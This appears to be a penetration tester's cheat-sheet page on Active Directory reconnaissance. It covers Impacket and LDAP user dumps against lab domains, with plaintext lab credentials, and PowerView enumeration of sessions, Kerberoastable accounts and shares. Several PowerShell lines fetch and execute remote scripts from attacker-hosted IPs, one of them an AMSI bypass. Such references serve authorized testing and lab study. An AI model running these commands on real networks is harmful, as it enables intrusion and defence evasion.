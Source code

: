 # Domain Recon

### Linux

#### All AD Users

{% code overflow="wrap" %}
```bash
# Impacket tool
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.51.164

GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople | awk '/Administrator/,/sql_svc/ {print $1}' > findings/users-north-all.txt   
```
{% endcode %}

#### LDAP (389)

{% code overflow="wrap" %}
```bash
# Dump ldap-based domain information
ldapdomaindump -u north.sevenkingdoms.local\\brandon.stark -p iseedeadpeople -d ';' 192.168.56.11  
ldapdomaindump -u north.sevenkingdoms.local\\brandon.stark -p iseedeadpeople -d ';' 192.168.56.10  

ldapdomaindump -u contoso\\kali -p Password0- -d ';' 10.10.10.1

# Kali with ldap query for domain information
ldapsearch -LLL -x -H ldap://10.10.10.1 -b '' -s base '(objectclass=*)
ldapsearch -h 10.10.10.1 -x -s base namingcontexts

ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'

ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'description:'

ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"

ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```
{% endcode %}



### Windows

### PowerView

[https://github.com/PowerShellMafia/PowerSploit\
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploithttps:/github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

{% code overflow="wrap" %}
```powershell
# You may want to bypass AMSI first. 
PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.10.100/privesc/my-am-bypass.ps1')

# Powerview 
CMD> powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')"
CMD> powershell.exe -exec Bypass -noexit -C "IEX (new-Object Net.WebClient).DownloadString('http://192.168.119.128/PowerView.ps1')"

PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.10.100/privesc/PowerView.ps1')|Import-Module PowerView.ps1
```
{% endcode %}

### Active Directory Module

[Active Directory Module | Microsoft Docs](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)\
[https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

{% code overflow="wrap" %}
```powershell
# You may want to bypass AMSI first.
PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.10.100/privesc/my-am-bypass.ps1')

CMD> powershell.exe -exec Bypass -noexit -C "iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory"

PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.10.100/privesc/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```
{% endcode %}

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# Local AD IP address
nslookup -type=all  _ldap._tcp.dc._msdcs.<Domain Name> 
nslookup -type=all  _ldap._tcp.dc._msdcs.THROWBACK.local

# Enumerate all users in the entire domain
net user /domain

# Get information from a specific user
net user <username> /domain

# Enumerate all groups in the entire domain
net group /domain

# Get members of local group
Get-NetLocalGroup -ComputerName <domain> -Recurse  # Powerview 

# Get quick current domain controller and the domain information
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# Enumerate loggeded-in users
Get-NetLoggedon -ComputerName client251 # Powerview 

# Get all active sessions
Get-NetSession -ComputerName dc01
```
{% endcode %}

### Active Directory Enumeration (PowerView)&#x20;

{% code overflow="wrap" %}
```powershell
# Get Domain information
PS> Get-NetDomain    

# Get SID ID
PS> Get-DomainSID
PS> Get-DomainPolicy

# Get Domain Controller Information
PS> Get-NetDomainController

# Get Domain Users
PS> Get-NetUser

# Kerberoastable users !!!! 
PS> Get-NetUser -SPN

# Get Group Information
Get-NetGroup | select samaccountname, admincount, description

# Find share
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt
```
{% endcode %}
